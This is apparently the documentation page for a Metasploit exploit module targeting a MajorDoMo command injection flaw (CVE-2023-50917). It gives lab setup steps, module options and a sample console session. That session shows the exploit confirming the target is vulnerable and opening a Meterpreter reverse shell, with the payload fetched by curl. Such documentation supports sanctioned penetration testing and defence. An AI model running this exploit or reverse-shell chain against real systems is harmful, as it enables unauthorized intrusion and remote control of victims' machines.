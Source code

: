 ## Vulnerable Application

This module exploits a command injection vulnerability in MajorDoMo versions before 0662e5e. To set up a test environment:

1. Download MajorDoMo by executing the following command:
```
curl -s https://raw.githubusercontent.com/sergejey/majordomo-rpi-install/main/install.sh | bash && bash ~/majordomo-rpi-install/install.sh
```
2. Follow the installation script instructions to install MajorDoMo on a Raspberry Pi or a Linux-based server.
3. Ensure that the network interface is active and properly configured during installation.
4. Replace `/var/www/html/modules/thumb/thumb.php` with
https://raw.githubusercontent.com/sergejey/majordomo/1167ca408a911c98937000516588c12cc33a1ab7/modules/thumb/thumb.php.
5. After installation, verify that the MajorDoMo service is operational and accessible over the network.


## Verification Steps

1. Install MajorDoMo with a version prior to 0662e5e.
2. Start msfconsole in your Metasploit environment.
3. Do: `use exploit/linux/http/majordomo_cmd_inject_cve_2023_50917`
4. Set the RHOSTS to the target IP address or hostname.
5. Optionally set USERNAME and PASSWORD if the target is protected by HTTP Basic Authentication.
6. Do: `run`
7. If the target is vulnerable, the exploit will execute the specified payload.

## Options

Here are the specific options for the `exploit/linux/http/majordomo_cmd_inject_cve_2023_50917` module:

### USERNAME (Optional)
- **Description**: The HTTP Basic Authentication Username.
- **Default Value**: None.

### PASSWORD (Optional)
- **Description**: The HTTP Basic Authentication Password.
- **Default Value**: None.

## Scenarios

### Successful Exploitation against MajorDoMo x.x.x

This scenario demonstrates exploiting MajorDoMo version x.x.x on a Linux server.

**Environment**:
- MajorDoMo x.x.x
- Linux Server
- Metasploit Framework

**Expected Output**:

```
msf6 > search majordomo

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank    Check  Description
   -  ----                                                    ---------------  ----    -----  -----------
   0  exploit/linux/http/majordomo_cmd_inject_cve_2023_50917  2023-11-15       normal  Yes    MajorDoMo Command Injection
   1  auxiliary/scanner/http/majordomo2_directory_traversal   2011-03-08       normal  No     Majordomo2 _list_file_get() Directory Traversal


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/majordomo2_directory_traversal

msf6 > use 0
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > options

Module options (exploit/linux/http/majordomo_cmd_inject_cve_2023_50917):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        The HTTP Basic Authentication Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metas
                                         ploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path to MajorDoMo
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    no        The HTTP Basic Authentication Username
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addr
                                       ess on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP,
                                                   WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      vGtfyMNwnp       no        Name to use on remote system when storing payload; cannot c
                                                  ontain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
                                                  .
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > set rhosts 192.168.1.18
rhosts => 192.168.1.18
msf6 exploit(linux/http/majordomo_cmd_inject_cve_2023_50917) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Target is identified as MajorDoMo instance
[+] The target is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.18
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.18:37250) at 2023-12-20 00:22:52 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.18
OS           : Debian 10.13 (Linux 4.19.0-25-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
